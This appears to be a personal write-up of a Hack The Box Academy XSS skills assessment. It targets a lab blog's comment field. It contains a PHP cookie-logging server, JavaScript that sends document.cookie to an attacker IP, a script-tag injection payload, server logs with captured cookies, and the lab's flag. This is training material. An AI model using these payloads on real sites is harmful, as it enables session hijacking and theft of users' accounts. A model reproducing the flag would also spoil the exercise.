 ```yaml
---
sticker: lucide//code
---
```

We are performing a Web Application Penetration Testing task for a company that hired you, which just released their new `Security Blog`. In our Web Application Penetration Testing plan, we reached the part where you must test the web application against Cross-Site Scripting vulnerabilities (XSS).

Start the server below, make sure you are connected to the VPN, and access the `/assessment` directory on the server using the browser:

   

![](https://academy.hackthebox.com/storage/modules/103/xss_skills_assessment_website.jpg)

Apply the skills you learned in this module to achieve the following:

1. Identify a user-input field that is vulnerable to an XSS vulnerability
2. Find a working XSS payload that executes JavaScript code on the target's browser
3. Using the `Session Hijacking` techniques, try to steal the victim's cookies, which should contain the flag


### Identifying the vulnerable parameter
---

Once we go into the website we can see the following:

![](cybersecurity/images/Pasted%2520image%252020250130180314.png)

If we go to the `Welcome to Security Blog` URL, we can see the following:

![](cybersecurity/images/Pasted%2520image%252020250130180344.png)

At first glance, the comments section seems vulnerable to XSS, let's test some simple payload to check the behavior of the web application, we can set up the same PHP server form the [[CYBERSECURITY/Bug Bounty/HTB BUG BOUNTY HUNTER PATH/CROSS-SITE SCRIPTING (XSS)/XSS Attacks/Session Hijacking.md|Session Hijacking]] section:

```php
<?php  
if (isset($_GET['c'])) {  
$list = explode(";", $_GET['c']);  
foreach ($list as $key => $value) {  
$cookie = urldecode($value);  
$file = fopen("cookies.txt", "a+");  
fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");  
fclose($file);  
}  
}  
?>
```

```js
document.location='http://10.10.15.141/index.php?c='+document.cookie;  
new Image().src='http://10.10.15.141/index.php?c='+document.cookie;
```

We can send the payloads in each section to check which one is vulnerable:

```js
"><script src=http://10.10.15.141/script.js></script>
```

![](cybersecurity/images/Pasted%2520image%252020250130181138.png)

After a bit, we'll get the following in our server:

```
[Thu Jan 30 23:10:18 2025] PHP 8.3.15 Development Server (http://0.0.0.0:80) started
[Thu Jan 30 23:11:08 2025] 10.129.147.238:37824 Accepted
[Thu Jan 30 23:11:08 2025] 10.129.147.238:37824 [200]: GET /script.js
[Thu Jan 30 23:11:08 2025] 10.129.147.238:37824 Closing
[Thu Jan 30 23:11:08 2025] 10.129.147.238:37826 Accepted
[Thu Jan 30 23:11:08 2025] 10.129.147.238:37826 [200]: GET /index.php?c=wordpress_test_cookie=WP%20Cookie%20check;%20wp-settings-time-2=1738278667;%20flag=HTB{cr055_5173_5cr1p71n6_n1nj4}
[Thu Jan 30 23:11:08 2025] 10.129.147.238:37826 Closing
[Thu Jan 30 23:11:09 2025] 10.129.147.238:37828 Accepted
[Thu Jan 30 23:11:14 2025] 10.129.147.238:37828 Closed without sending a request; it was probably just an unused speculative preconnection
[Thu Jan 30 23:11:14 2025] 10.129.147.238:37828 Closing
```

We got the flag: `HTB{cr055_5173_5cr1p71n6_n1nj4}`

![](cybersecurity/images/Pasted%2520image%252020250130181248.png)

